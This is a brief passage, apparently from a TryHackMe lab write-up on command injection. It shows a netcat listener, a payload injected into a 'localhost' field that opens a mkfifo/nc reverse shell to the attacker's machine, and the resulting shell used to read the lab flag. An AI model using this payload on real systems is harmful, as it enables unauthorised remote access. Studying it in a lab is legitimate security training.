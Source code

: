 Great! Now lets use this nc revshell payload after starting a listener on our attack box

`nc -lvnp 9001`

```bash
localhost;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.77.38 9001 >/tmp/f
```

and we can get a shell back


```bash
└─$ nc -lvnp 9001               
listening on [any] 9001 ...
connect to [10.6.77.38] from (UNKNOWN) [10.10.95.246] 44210
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cat  /home/tryhackme/flag.txt 
THM{COMMAND_INJECTION_COMPLETE}
$ 

```

From here an attacker can potentially PE to root and have total controll of the server.
